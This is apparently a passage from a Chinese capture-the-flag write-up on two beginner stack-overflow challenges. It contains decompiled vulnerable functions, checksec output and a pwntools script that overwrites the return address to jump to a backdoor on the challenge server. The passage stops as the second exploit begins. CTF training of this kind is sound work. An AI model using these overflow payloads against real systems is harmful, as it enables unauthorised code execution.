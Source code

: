 ```cpp
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  return read(0, &buf, 0x200uLL);
}
```

0x200ull显然可以造成溢出覆盖，这里我们溢出到rbp(64位系统8字节)后修改调用函数的return值使之跳转到callsystem的函数地址，拿到后门

### Exp

```python
#coding=utf-8
from pwn import *

payload="a"*0x80+"a"*8+p64(0x400596)

dist=remote("111.198.29.45","31258")

dist.recvuntil("Hello, World")
dist.send(payload)
dist.interactive()
```

## 0x06 level2

还是惯例拿checksec 分析
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
拖进IDA pro

看到

```cpp
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  system("echo Input:");
  return read(0, &buf, 0x100u);
}
```

和上题一样 存在栈溢出漏洞

但是这回没有现成的后门了

但是我们有system命令地址啊
